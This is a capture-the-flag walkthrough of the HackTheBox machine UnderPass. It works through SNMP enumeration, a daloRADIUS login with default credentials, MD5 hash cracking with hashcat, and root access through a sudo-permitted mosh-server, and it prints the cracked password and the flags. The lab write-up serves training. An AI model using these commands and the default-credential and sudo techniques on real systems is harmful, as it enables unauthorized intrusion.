





Today we're tackling UnderPass, a fairly recent machine on HackTheBox. Let's get started!

## Enumeration

I'll start of with a `nmap` port scan, and we end up with just two ports open:

```
$ sudo nmap -sV -sC 10.10.11.48

Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-25 09:50 CEST
Nmap scan report for 10.10.11.48
Host is up (0.019s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 48:b0:d2:c7:29:26:ae:3d:fb:b7:6b:0f:f5:4d:2a:ea (ECDSA)
|_  256 cb:61:64:b8:1b:1b:b5:ba:b8:45:86:c5:16:bb:e2:a2 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.72 seconds
```

- SSH on port 22
- Apache on port 80

Because the machine is running Apache, it's likely we are dealing with PHP here. Let's check out the web page:



We get the default Apache page... Does this mean there's nothing to find here? Maybe. Let's try another port scan but for UDP ports (it will take while!):

```
$ sudo nmap -sU --top-ports=100 10.10.11.48
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-25 10:01 CEST
Nmap scan report for 10.10.11.48
Host is up (0.017s latency).
Not shown: 57 closed udp ports (port-unreach), 42 open|filtered udp ports (no-response)
PORT    STATE SERVICE
161/udp open  snmp

Nmap done: 1 IP address (1 host up) scanned in 55.13 seconds
```

I explicitly disabled version detection (`-sV`) and scripts (`-sC`) because it would take an hour!

The only open port amongst the top 100, is port 161 hosting SNMP (Simple Network Management Protocol) which is used to collect data from and instruct managed devices.

The default "community string" which is an identifier for a group of information, is called `public`. We can use the `snmpwalk` tool to dump all the information available:

```
$ snmpwalk -v 2c -c public 10.10.11.48
iso.3.6.1.2.1.1.1.0 = STRING: "Linux underpass 5.15.0-126-generic #136-Ubuntu SMP Wed Nov 6 10:38:22 UTC 2024 x86_64"
iso.3.6.1.2.1.1.2.0 = OID: iso.3.6.1.4.1.8072.3.2.10
iso.3.6.1.2.1.1.3.0 = Timeticks: (195817) 0:32:38.17
iso.3.6.1.2.1.1.4.0 = STRING: "steve@underpass.htb"
iso.3.6.1.2.1.1.5.0 = STRING: "UnDerPass.htb is the only daloradius server in the basin!"
iso.3.6.1.2.1.1.6.0 = STRING: "Nevada, U.S.A. but not Vegas"
iso.3.6.1.2.1.1.7.0 = INTEGER: 72
iso.3.6.1.2.1.1.8.0 = Timeticks: (1) 0:00:00.01
iso.3.6.1.2.1.1.9.1.2.1 = OID: iso.3.6.1.6.3.10.3.1.1
iso.3.6.1.2.1.1.9.1.2.2 = OID: iso.3.6.1.6.3.11.3.1.1
iso.3.6.1.2.1.1.9.1.2.3 = OID: iso.3.6.1.6.3.15.2.1.1
iso.3.6.1.2.1.1.9.1.2.4 = OID: iso.3.6.1.6.3.1
iso.3.6.1.2.1.1.9.1.2.5 = OID: iso.3.6.1.6.3.16.2.2.1
iso.3.6.1.2.1.1.9.1.2.6 = OID: iso.3.6.1.2.1.49
iso.3.6.1.2.1.1.9.1.2.7 = OID: iso.3.6.1.2.1.50
iso.3.6.1.2.1.1.9.1.2.8 = OID: iso.3.6.1.2.1.4
iso.3.6.1.2.1.1.9.1.2.9 = OID: iso.3.6.1.6.3.13.3.1.3
iso.3.6.1.2.1.1.9.1.2.10 = OID: iso.3.6.1.2.1.92
iso.3.6.1.2.1.1.9.1.3.1 = STRING: "The SNMP Management Architecture MIB."
iso.3.6.1.2.1.1.9.1.3.2 = STRING: "The MIB for Message Processing and Dispatching."
iso.3.6.1.2.1.1.9.1.3.3 = STRING: "The management information definitions for the SNMP User-based Security Model."
iso.3.6.1.2.1.1.9.1.3.4 = STRING: "The MIB module for SNMPv2 entities"
iso.3.6.1.2.1.1.9.1.3.5 = STRING: "View-based Access Control Model for SNMP."
iso.3.6.1.2.1.1.9.1.3.6 = STRING: "The MIB module for managing TCP implementations"
iso.3.6.1.2.1.1.9.1.3.7 = STRING: "The MIB module for managing UDP implementations"
iso.3.6.1.2.1.1.9.1.3.8 = STRING: "The MIB module for managing IP and ICMP implementations"
iso.3.6.1.2.1.1.9.1.3.9 = STRING: "The MIB modules for managing SNMP Notification, plus filtering."
iso.3.6.1.2.1.1.9.1.3.10 = STRING: "The MIB module for logging SNMP Notifications."
iso.3.6.1.2.1.1.9.1.4.1 = Timeticks: (1) 0:00:00.01
iso.3.6.1.2.1.1.9.1.4.2 = Timeticks: (1) 0:00:00.01
iso.3.6.1.2.1.1.9.1.4.3 = Timeticks: (1) 0:00:00.01
iso.3.6.1.2.1.1.9.1.4.4 = Timeticks: (1) 0:00:00.01
iso.3.6.1.2.1.1.9.1.4.5 = Timeticks: (1) 0:00:00.01
iso.3.6.1.2.1.1.9.1.4.6 = Timeticks: (1) 0:00:00.01
iso.3.6.1.2.1.1.9.1.4.7 = Timeticks: (1) 0:00:00.01
iso.3.6.1.2.1.1.9.1.4.8 = Timeticks: (1) 0:00:00.01
iso.3.6.1.2.1.1.9.1.4.9 = Timeticks: (1) 0:00:00.01
iso.3.6.1.2.1.1.9.1.4.10 = Timeticks: (1) 0:00:00.01
iso.3.6.1.2.1.25.1.1.0 = Timeticks: (196894) 0:32:48.94
iso.3.6.1.2.1.25.1.2.0 = Hex-STRING: 07 E9 07 19 08 14 05 00 2B 00 00
iso.3.6.1.2.1.25.1.3.0 = INTEGER: 393216
iso.3.6.1.2.1.25.1.4.0 = STRING: "BOOT_IMAGE=/vmlinuz-5.15.0-126-generic root=/dev/mapper/ubuntu--vg-ubuntu--lv ro net.ifnames=0 biosdevname=0
"
iso.3.6.1.2.1.25.1.5.0 = Gauge32: 0
iso.3.6.1.2.1.25.1.6.0 = Gauge32: 212
iso.3.6.1.2.1.25.1.7.0 = INTEGER: 0
iso.3.6.1.2.1.25.1.7.0 = No more variables left in this MIB View (It is past the end of the MIB tree)
```

Quite a lot of information but the important thing here is the email address `steve@underpass.htb`. There is also a mention of `daloradius`. This is a RADIUS server, used for authentication. There should be a web application to manage this.

The web application is located in the `/daloradius` subdirectory. We can add `underpass.htb` to `/etc/hosts`:

```
127.0.0.1       localhost
127.0.1.1       kali

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters

10.10.11.48 underpass.htb
```

This allows us to visit the web server with the `underpass.htb` hostname.



We are not allowed to visit the `/daloradius` directory. Instead we'll have to try to find a login page. According to the documentation the "operator login" is located at `http://<ip-address>/daloradius/app/operators`.

Visiting this page we are redirected to `/app/operators/login.php`:



## Foothold

We can also find in the documentation the default credentials.

> the default username/password is `administrator/radius`.

I try to login with this combination and I get in!

We end up on the dashboard page:



We can find a username with a password hash:



Let's get cracking!

```
$ hashcat hashes.txt
hashcat (v6.2.6) starting in autodetect mode

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, SPIR-V, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
====================================================================================================================================================
* Device #1: cpu-skylake-avx512-AMD Ryzen 7 7700X 8-Core Processor, 1431/2927 MB (512 MB allocatable), 2MCU

The following 11 hash-modes match the structure of your input hash:

      # | Name                                                       | Category
  ======+============================================================+======================================
    900 | MD4                                                        | Raw Hash
      0 | MD5                                                        | Raw Hash
     70 | md5(utf16le($pass))                                        | Raw Hash
   2600 | md5(md5($pass))                                            | Raw Hash salted and/or iterated
   3500 | md5(md5(md5($pass)))                                       | Raw Hash salted and/or iterated
   4400 | md5(sha1($pass))                                           | Raw Hash salted and/or iterated
  20900 | md5(sha1($pass).md5($pass).sha1($pass))                    | Raw Hash salted and/or iterated
   4300 | md5(strtoupper(md5($pass)))                                | Raw Hash salted and/or iterated
   1000 | NTLM                                                       | Operating System
   9900 | Radmin2                                                    | Operating System
   8600 | Lotus Notes/Domino 5                                       | Enterprise Application Software (EAS)

Please specify the hash-mode with -m [hash-mode].
```

We need to tell `hashcat` what hash algorithm is used here. I guess it will be MD5 because that is most prevalent.

```
$ hashcat hashes.txt -m 0 --wordlist /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt
hashcat (v6.2.6) starting

...

Dictionary cache hit:
* Filename..: /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt
* Passwords.: 14344384
* Bytes.....: 139921497
* Keyspace..: 14344384

412dd4759978acfcc81deab01b382403:underwaterfriends

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 0 (MD5)
Hash.Target......: 412dd4759978acfcc81deab01b382403
Time.Started.....: Fri Jul 25 11:12:28 2025 (1 sec)
Time.Estimated...: Fri Jul 25 11:12:29 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  4793.1 kH/s (0.06ms) @ Accel:256 Loops:1 Thr:1 Vec:16
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 2984448/14344384 (20.81%)
Rejected.........: 0/2984448 (0.00%)
Restore.Point....: 2983936/14344384 (20.80%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: underwear6 -> underfak

Started: Fri Jul 25 11:12:22 2025
Stopped: Fri Jul 25 11:12:30 2025
```

In just one second, the hash was cracked! The password is `underwaterfriends`. The username associated with the username we can find on the dashboard: `svcMosh`. Let's try SSH with these credentials.

We get in, and we can collect the user flag:

```
$ ssh svcMosh@underpass.htb
svcMosh@underpass.htb's password:
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-126-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Fri Jul 25 09:18:22 AM UTC 2025

  System load:  0.0               Processes:             226
  Usage of /:   49.6% of 6.56GB   Users logged in:       0
  Memory usage: 10%               IPv4 address for eth0: 10.10.11.48
  Swap usage:   0%


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Sat Jan 11 13:29:47 2025 from 10.10.14.62

svcMosh@underpass:~$ cat user.txt
1a97b501576d5626de844d8e5474****
```

## Privilege Escalation

One of the first commands to run once you have a user shell is `sudo -l` to see if there is any command we can run as root:

```
svcMosh@underpass:~$ sudo -l
Matching Defaults entries for svcMosh on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User svcMosh may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/bin/mosh-server
```

There is `/usr/bin/mosh-server` which we can run as root without a password. "Mosh" seems to be a alternative to SSH. When we run the binary as root it opens a listener on port 60001 and detaches.

```
svcMosh@underpass:~$ sudo /usr/bin/mosh-server


MOSH CONNECT 60001 0c6s1ydNSFJPXO4VtYvt8Q

mosh-server (mosh 1.3.2) [build mosh 1.3.2]
Copyright 2012 Keith Winstein <mosh-devel@mit.edu>
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>.
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.

[mosh-server detached, pid = 1769]
```

We can connect to the port using "mosh-client" which we must first install:

```
$ sudo apt install mosh

$ MOSH_KEY=0c6s1ydNSFJPXO4VtYvt8Q mosh-client 10.10.11.48 60001

Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-126-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Fri Jul 25 09:18:22 AM UTC 2025

  System load:  0.0               Processes:             226
  Usage of /:   49.6% of 6.56GB   Users logged in:       0
  Memory usage: 10%               IPv4 address for eth0: 10.10.11.48
  Swap usage:   0%


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update


root@underpass:~# cat /root/root.txt
a0af68a6e1cbca98e35a3f9281b0f51f
```

That's it! We have both flags!
